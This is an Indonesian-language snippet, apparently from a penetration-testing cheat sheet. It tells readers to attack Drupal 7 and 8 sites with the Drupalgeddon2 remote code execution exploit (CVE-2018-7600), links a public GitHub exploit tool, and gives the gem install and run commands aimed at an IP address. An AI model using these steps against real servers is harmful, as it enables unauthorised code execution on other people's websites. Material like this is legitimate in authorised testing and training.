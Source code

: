 ## RCE Drupal Versi 7 & 8
**CVE-2018-7600 | Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x? - 'Drupalgeddon2' RCE (SA-CORE-2018-002)**

Jika kamu menemukan Drupal versi 7 atau 8 maka langsung bisa gunakan Drupalgeddon untuk exploit dan RCE
https://github.com/dreadlocked/Drupalgeddon2

Jangan lupa install library via gem
```
sudo gem install highline
```
Lalu jalankan Drupalgeddon
```
ruby drupalgeddon2.rb https://192.168.11.1
```
